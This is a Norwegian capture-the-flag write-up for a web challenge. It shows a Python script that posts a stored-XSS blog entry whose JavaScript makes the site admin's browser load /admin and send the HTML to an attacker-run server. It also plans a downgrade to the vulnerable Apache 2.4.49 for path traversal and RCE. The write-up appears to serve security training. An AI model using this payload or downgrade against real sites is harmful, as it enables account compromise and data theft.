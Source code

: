 Etter mye leting og leking på nettsiden fant man ut at admin kommenterer på blogginnleggene man lager. I tillegg er XSS (Cross-site scripting) mulig å utføre på bloggen. Dette betyr at vi kan få kodesnutter til å kjøre på maskinen til andre som laster inn bloggen, som i dette tilfellet er admin, siden han kommenterer på innleggene våre. Vi kan dermed prøve å få aksess til */admin*, som virker som er adminpanelet til siden.

Det var mye prøving og feiling for å få dette til å fungere. Den endelige løsningen endte opp med å lage et blogginnlegg med javasciptkode som kjører når admin laster inn siden. Scriptet får admin til å aksessere */admin* (adminpanelet), og når admin har kildekoden til */admin* nettsiden, få han til å sende en GET-request til en lokal python-server. HTML-koden blir sendt i url-en som han requester fra python-serveren, og vi har dermed kildekoden til adminpanelet (merk at HTML-koden er base64 enkodet når det ankommer serveren vår, så dette å dekodes først).

Scriptet ble seende slik ut:
```python
import requests

s = requests.Session()
cookie = {"session": "eyJmbGFnIjoiMGEwZGZmZmRmYTdhN2U2ZDRhYzBhNGM1YWI0N2E1YjEiLCJ1c2VyX2lkIjoxNn0.Yb4jYQ.zIC4uLs8BbGY7jdKECjQHITekHk"}

script = """<script>
    xhr = new XMLHttpRequest();
    xhr.open("GET","/admin/");
    xhr.send();
    xhr.onload = function(){
         request = new XMLHttpRequest();
         request.open("GET", "http://<ip_addr_pythonserver>:<port>/"+encodeURI(xhr.responseText), true);
         request.send();
}    
</script>"""

blogpost = {"title": "Mission Plan", "body": script}
res = s.post("http://blog.utl/create", data=blogpost, cookies=cookie)
s.close()
```
I HTML-koden finner vi flagget `<h1> FLAG: 743757f80c10e8f2584793fb9d01af60 </h1>`

## 2.4_webserver_1
I HTML-koden vi får fra admin finner vi følgende interessante kodesnutt:
```html
<form action="/admin/update" method="post">
    <label for="service">Service:</label>
    <select name="service" class="selectpicker form-control">

      <option value="apache">anvilshop.utl ( apache )</option>

    </select>

    <label for="version">Version</label>
    <select name="version" class="selectpicker form-control">

        <option value="2.4.51">2.4.51</option>
        <option value="2.4.49">2.4.49</option>

    </select>
    <input class="btn" type="submit" value="Update">
  </form>
```
Det ser ut som om at admin kan endre apache-versjonen som nettsiden `anvilshop.utl` bruker. Dette er en nettside vi også fikk vite om i oppdragsteksten, og som bruker Apache 2.4.51. Apache 2.4.49 er kjent for å være vulnerable for path-traversal attack og mulig RCE (Remote Code Execution), så dette er en versjon vi heller vil ha enn 2.4.51 (som ikke er vulnerable for disse angrepene).
